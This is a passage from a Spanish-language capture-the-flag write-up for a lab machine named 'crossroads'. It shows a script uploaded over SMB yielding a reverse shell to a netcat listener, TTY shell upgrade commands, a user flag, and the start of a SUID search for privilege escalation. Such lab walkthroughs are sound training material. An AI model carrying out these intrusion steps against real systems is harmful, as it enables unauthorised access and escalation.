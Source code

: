 Una vez echo esto, vamos a subir el archivo magico de esta forma:

```shell
put smbscript.sh
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.25] 46188
bash: cannot set terminal process group (539): Inappropriate ioctl for device
bash: no job control in this shell
albert@crossroads:/home/albert/smbshare$ whoami
whoami
albert
```

Veremos que ha funcionado por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Echo esto vamos a leer la `flag` del usuario.

> user.txt

```
912D12370BBCEA67BF28B03BCB9AA13F
```

## Escalate Privileges

Si listamos los binario con permisos `SUID` que hay en el sistema veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:
